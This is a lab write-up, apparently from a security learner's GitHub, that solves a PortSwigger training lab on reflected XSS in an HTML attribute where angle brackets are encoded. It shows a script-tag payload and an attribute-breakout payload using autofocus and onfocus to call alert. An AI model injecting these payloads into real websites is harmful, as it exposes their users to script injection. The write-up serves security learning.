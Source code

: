 # Reflected XSS into attribute with angle brackets HTML-encoded

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded), you'll learn: Reflected XSS into attribute with angle brackets HTML-encoded! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the `alert` function.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-7/images/%2020221229063403.png)

In here, we can see there is a search box.

**Let's search something:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-7/images/%2020221229063454.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-7/images/%2020221229063517.png)

As you can see, our input is reflected to the web page.

**Let's try to inject an XSS payload:**
```html
<script>alert(document.domain)</script>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-7/images/%2020221229063612.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-7/images/%2020221229063628.png)

**View souce page:**
```html
<section class=blog-header>
    <h1>0 search results for '&lt;script&gt;alert(document.domain)&lt;/script&gt;'</h1>
    <hr>
</section>
```

Hmm... **The angle brackets were HTML encoded!**

**To bypass that, we can use event handler:**
```html
" autofocus onfocus=alert(document.domain) closeme="
```

The above payload creates an `onfocus` event that will execute JavaScript when the element receives the focus, and also adds the `autofocus` attribute to try to trigger the `onfocus` event automatically without any user interaction. Finally, it adds `x="` to gracefully repair the following markup.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-7/images/%2020221229065234.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-7/images/%2020221229065241.png)

We did it!

# What we've learned:

1. Reflected XSS into attribute with angle brackets HTML-encoded